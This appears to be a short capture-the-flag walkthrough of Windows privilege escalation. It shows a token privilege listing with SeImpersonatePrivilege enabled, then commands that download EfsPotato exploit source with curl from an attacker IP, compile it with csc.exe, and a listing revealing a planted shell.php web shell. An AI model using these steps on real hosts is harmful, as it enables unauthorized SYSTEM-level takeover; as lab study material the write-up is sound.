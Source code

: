 Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled





-----------------------------------------------------------------------



The user has SeImpersonatePrivilege enabled this can be used as a leverage for privilege escalation

Using Efspotato for privilege escalation 




https://github.com/zcgonvh/EfsPotato



 cd C:\xampp\htdocs\
 


curl "http://10.8.163.249:8000/EfsPotato.cs" -o efs.cs



C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe efs.cs -nowarn:1691,618




evader@HostEvasion:C:\xampp\htdocs# dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\xampp\htdocs

07/31/2025  06:58 PM    <DIR>          .
07/31/2025  06:58 PM    <DIR>          ..
08/17/2023  05:09 AM             5,024 6xK3dSBYKcSV-LCoeQqfX1RYOo3qNa7lqDY.woff2
07/16/2023  04:29 PM           213,642 background-image.jpg
07/11/2023  05:11 PM             9,711 background-image2.jpg
07/31/2025  06:57 PM            25,441 efs.cs
07/31/2025  06:58 PM            17,920 efs.exe
08/17/2023  05:11 AM             3,554 font.css
08/29/2023  09:55 AM             3,591 index.php
07/31/2025  06:47 PM            20,321 shell.php
07/31/2025  06:39 PM    <DIR>          uploads
               8 File(s)        299,204 bytes
               3 Dir(s)  13,595,394,048 bytes free








Es el ejecutable del exploit EfsPotato, el cual aprovecha una vulnerabilidad (CVE-2021-36942) para elevar privilegios locales a NT AUTHORITY\SYSTEM.
